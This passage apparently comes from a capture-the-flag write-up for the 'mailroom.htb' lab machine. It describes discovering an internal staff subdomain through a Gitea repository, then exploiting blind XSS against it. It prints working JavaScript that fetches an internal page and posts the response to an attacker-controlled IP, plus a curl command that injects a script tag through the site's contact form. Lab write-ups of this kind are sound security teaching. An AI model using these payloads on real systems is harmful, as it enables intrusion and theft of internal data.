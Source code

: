 Found a git repository on gitea instance -

![](screenshots/http-git.mailroom.htb-matthew-staffroom.png)

* New subdomain from `staffroom/auth.php#L42` -> `staff-review-panel.mailroom.htb`
* `staff-review-panel.mailroom.htb` is not accessible remotely but we can access it using blind XSS

Here, Create a javascript that, when triggered, send a GET request to `staff-review-panel.mailroom.htb` and then send the response of that GET request to attacker controlled domain.
```js
var req1 = new XMLHttpRequest();
req1.open("GET", "http://staff-review-panel.mailroom.htb/register.html", false);
req1.send();
var resp = req1.response;

var req2 = new XMLHttpRequest();
req2.open("POST", "http://10.10.14.2:4141/", false);
req2.setRequestHeader("Content-Type", "text/plain");
req2.send(resp);
```

Host above js file in a python server, Create inquiry with xss payload including above javascript. 
```bash
curl -X POST 'http://mailroom.htb/contact.php' -d $'email=test%40test.com&title=This+is+a+very+important+mesage&message=This+is+a+very+important+mesage!</p><script+src=\"http://10.10.14.2:8000/test.js\"></script><p>'
```
